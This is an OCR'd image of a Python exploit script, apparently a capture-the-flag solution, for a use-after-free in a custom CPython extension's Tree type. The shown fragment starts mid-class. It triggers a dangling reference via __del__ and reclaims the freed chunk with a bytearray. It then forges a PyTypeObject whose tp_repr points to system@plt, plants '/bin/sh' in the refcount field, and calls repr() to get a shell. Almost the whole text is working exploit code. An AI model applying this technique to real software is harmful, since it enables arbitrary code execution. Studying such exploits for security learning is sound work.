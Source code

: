 ```python
        self.s = s
    def __del__(self):
        global root, freed_node
        # "Py_XDECREF(self->object)" --> "__del__" first
        # "Py_TYPE(self)->tp_free((PyObject *) self)" will free node
        # but node is ref by freed_node --> UAF
        freed_node = root.get_child_left()
    def __repr__(self):
        return self.s

debug = True
if debug == True:
    plt_system = 0x41da50
    ptr_PyType_Type = 0x7475e0
else:
    plt_system = 0x4214f0
    ptr_PyType_Type = 0x956900

root.add_child_left(Tree(Pwn('A')))
# trigger Tree_dealloc(self->left) --> Py_XDECREF(self->object) --> object.__del__()
root.add_child_left(Tree(None))
print("[*] duplicate object addr: ", freed_node)
dup = bytearray(0x28) # take dup chunk with freed node

ob_base = p64(0xc) + p64(0x956900) + p64(0) # ob_refcnt + ob_type + ob_size
tp_name = p64(0)
tp_basicsize = p64(0x28)
tp_itemsize = p64(0)
tp_dealloc = p64(0)
tp_vectorcall_offset = p64(0)
tp_getattr = p64(0)
tp_setattr = p64(0)
tp_as_async = p64(0)
tp_repr = p64(plt_system)
tp_as_number, tp_as_sequence, tp_as_mapping, tp_hash, tp_call, tp_str, tp_getattro, tp_setattro, tp_as_buffer, tp_flags, tp_doc, tp_traverse = [p64(0)] * 12

# (PyTypeObject *) <addr> <PyType_Type>
fake_object = ob_base + tp_name + tp_basicsize + tp_itemsize + tp_dealloc + tp_vectorcall_offset + tp_getattr + \
                tp_setattr + tp_as_async + tp_repr + tp_as_number + tp_as_sequence + tp_as_mapping + \
                tp_hash + tp_call + tp_str + tp_getattro + tp_setattro + tp_as_buffer + tp_flags + \
                tp_doc + tp_traverse

print(hex(id(fake_object)))
"""
ob_refcnt --> ".bin/sh;" # ref++ --> /bin/sh
ob_type --> fake object
"""
dup[0:8] = b'.bin/sh\x00'
dup[8:16] = p64(id(fake_object) + 0x20)
input()
repr(freed_node)
```
